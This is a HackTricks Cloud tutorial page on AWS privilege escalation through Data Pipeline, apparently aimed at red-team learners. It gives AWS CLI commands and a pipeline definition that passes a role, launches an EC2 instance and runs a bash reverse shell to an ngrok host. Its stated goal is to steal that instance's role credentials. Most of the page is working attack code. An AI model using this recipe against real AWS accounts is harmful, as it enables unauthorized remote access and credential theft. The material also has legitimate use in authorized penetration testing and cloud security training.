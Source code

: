 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

For more info about datapipeline check:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**

```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```

After pipeline creation, the attacker updates its definition to dictate specific actions or resource creations:

```json
{
     "objects": [
     {
         "id" : "CreateDirectory",
         "type" : "ShellCommandActivity",
         "command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
         "runsOn" : {"ref": "instance"}
     },
     {
         "id": "Default",
         "scheduleType": "ondemand",
         "failureAndRerunMode": "CASCADE",
         "name": "Default",
         "role": "assumable_datapipeline",
         "resourceRole": "assumable_datapipeline"
     },
     {
         "id" : "instance",
         "name" : "instance",
         "type" : "Ec2Resource",
         "actionOnTaskFailure" : "terminate",
         "actionOnResourceFailure" : "retryAll",
         "maximumRetries" : "1",
         "instanceType" : "t2.micro",
         "securityGroups" : ["default"],
         "role" : "assumable_datapipeline",
         "resourceRole" : "assumable_ec2_profile_instance"
     }]
}
```

{% hint style="info" %}
Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.

Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).
{% endhint %}

```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
    --pipeline-definition file:///pipeline/definition.json
```

The **pipeline definition file, crafted by the attacker, includes directives to execute commands** or create resources via the AWS API, leveraging the Data Pipeline's role permissions to potentially gain additional privileges.

**Potential Impact:** Direct privesc to the ec2 service role specified.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
